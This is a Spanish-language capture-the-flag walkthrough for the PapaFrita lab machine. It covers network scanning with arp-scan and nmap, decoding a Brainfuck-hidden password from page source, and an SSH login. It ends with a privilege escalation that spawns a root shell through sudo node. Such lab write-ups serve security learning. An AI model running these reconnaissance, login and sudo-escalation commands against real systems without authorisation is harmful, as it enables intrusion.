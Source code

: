 # PapaFrita

Maquinas que vamos a utilizar Kali Linux y PapaFrita  [https://thehackerslabs.com/papafrita/](https://thehackerslabs.com/papafrita/)

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%2086.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=2000 -n -vvv -Pn 10.0.3.30
```

![image.png](./imagenes/image%2087.png)

- Miramos lo que corre dentro del puerto 80 en el navegador web
    
    ![image.png](./imagenes/d8fbbd25-60d9-4c89-ac95-74ac20575f86.png)
    
    A simple vista no hay nada interesante pero vamos a revisar el código fuente.
    
    `CTRL+U`
    
    ![image.png](./imagenes/image%2088.png)
    
    Nos encontramos estas curiosas lineas que parecen estar escrito en **Brainfuck** por tanto vamos a intentar descodificar el codigo .
    
- Voy a usar la web [https://www.dcode.fr/](./imagenes/https://www.dcode.fr/) para intentar desentrañar el código.
    
    ![image.png](./imagenes/image%2089.png)
    
    `abuelacalientalasopa` Parece una contraseña
    

- Probando distintos nombres de usuario nos vamos por la opción más lógica. Y elegimos de usuario **abuela para el SSH.**
    
    ```bash
    ssh [abuela@10.0.3.30](./imagenes/mailto:abuela@10.0.3.30)
    ```
    
    ![image.png](./imagenes/image%2090.png)
    
- Listamos privilegios para ver los permisos **sudo -l**
    
    `sudo -l`
    
    ![image.png](./imagenes/image%2091.png)
    
- Usamos [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/)
    
    ![image.png](./imagenes/image%2092.png)
    

`sudo /usr/bin/node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'`

`whoami`

![image.png](./imagenes/image%2093.png)
